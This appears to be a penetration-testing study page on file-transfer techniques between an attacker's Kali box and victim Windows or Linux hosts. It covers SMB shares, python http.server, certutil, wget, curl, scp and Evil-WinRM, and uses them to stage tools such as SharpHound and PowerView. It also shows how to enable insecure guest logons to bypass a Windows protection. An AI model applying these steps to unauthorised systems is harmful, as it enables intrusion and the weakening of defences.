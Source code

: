 ```yaml
---
description: >-
  This took lots of time for me to compile and understand. However, through
  applying the "try harder" mentality, this concept has made me gain more
  confidence in my competence.
cover: https://media3.giphy.com/media/xTiTnjZAjQipGn9JFS/200.gif
coverY: 0
---
```


# 📤 File Transfer

{% hint style="danger" %}
WARNING

When using `python3 -m http.server`, be sure to close via `CTRL + C` to send a Signal Interrupt (SIGINT) to terminate the server after use.

This is because anyone on the network can arbitrarily obtain files from your system if they're listening!!
{% endhint %}

## Windows->Linux Methods

### SMB Server

On Kali:

```
impacket-smbserver smb . -smb2support
```

On Windows:

```
net use \\<kali-ip>\smb

copy \\<kali-ip>\smb\SharpHound.exe .

dir

SharpHound.exe
```

* Be sure to open up the file through the file manager on Linux (GUI)
* This makes things easier

### If on Windows 11 and Impacket's SMB Server Does not Work...

You will likely run into `System error 1272` occurring on the Windows machine. I could be wrong, but I believe that this is a new default security mechanism to thwart unauthenticated guest access to shared drives by default. In order to get around this, you can modify the group policy using the following instructions:

```
Open Local Group Policy Editor by typing gpedit.msc in the Run dialog (Win + R).

Navigate to Computer Configuration > Administrative Templates > Network > Lanman Workstation.

Find and double-click on Enable insecure guest logons.

Set it to Enabled, click OK, and close the editor.
```

### SCP

On the Windows side, use an SCP client like PowerShell with OpenSSH or a tool like [WinSCP](https://winscp.net/).

For PowerShell, use the following command (replacing `<user>`, `<Kali_IP>`, and paths as necessary):

```
scp <path_to_local_file> <user>@<Kali_IP>:/path/on/kali
```

### Python3 HTTP Server (`http.server`)

Very easy, however, it requires `python3` to be installed on the victim/host.

**On Windows:**

```
# Obtain IP address of Windows machine
ipconfig

# Navigate to directory of file(s) you want to serve
cd ...

# Start server
python3 -m http.server

# By default, an HTTP server will be hosted on 127.0.0.1:8000
```

**On Kali:**

```
wget http://windows-ip:8000/file-name-here
```

### Evil-WinRM

```
# Download to your Kali:
Evil-WinRM download /file/name/here

# Upload a file to the Windows victim from Kali
Evil-WinRM upload /file/name/here
```

## Linux->Windows

### Certutil

On Kali:

```
python3 -m http.server
```

On Windows:

```
certutil -urlcache -f http://<kali_ip_here:8000>/name_of_file name_of_file
```

### Linux -> Windows // Windows -> Linux // Windows -> Windows

{% hint style="info" %}
:bulb:UPDATE!! Newer versions of Windows now features wrappers to `wget`!&#x20;

This means that we can use `wget` the same way we do on Linux on Windows to grab our loot!
{% endhint %}

**On the system you're sending files from:**

```
# Obtain IP
ifconfig
ip a
ipconfig

# Setup Python HTTP Server
python3 -m http.server
```

**Receiving system:**

```
wget http://<obtained_IP_HERE>:8000/file_to_receive_here

# On Windows, you need to specify -o for output file
wget http://<obtained_IP_HERE>:8000/file_to_receive_here -o file_to_receive_here
```

### Evil-WinRM

```
Evil-WinRM: PS C:\programdata> upload /../../../PowerView.ps1
```

## Linux->Linux

### Wget

On Kali:

```
python3 -m http.server
```

On Victim:

```
wget http://<tun0_ip_here>:8000/<file_name_here> <file_name_here>
```

#### Or, to transfer an entire directory, use:

```
wget -r http://192.168.76.146:8000/stack
```

#### Even Better

Download it all:

```
wget -r -l inf -np -nH --cut-dirs=0 -R "index.html*" -P <Directory_to_save_to> http://webserver
```

### Curl

On Kali:

```
python3 -m http.server
```

On Victim:

```
curl http://<tun0_ip_here:8000/<file_name_here> <file_name_here>
```

## SCP

* Is SSH open?
* SSH Creds or Key
* Identify path of file you want with <mark style="color:red;">`pwd`</mark>

Copying a file from a remote system to yours:

```
scp user@10.10.10.1:C:/ftp/infrastructure .
password:

Infrastructure.pdf                                                     100%   45KB 240.7KB/s   00:00    
```

Transfering a file from your system to a remote system:

```
scp root@10.10.10.1 -i ~/.ssh/id_rsa wordlist.txt /root/wordlists
```

## References

{% embed url="https://0xdf.gitlab.io/2018/10/11/pwk-notes-post-exploitation-windows-file-transfers.html" %}
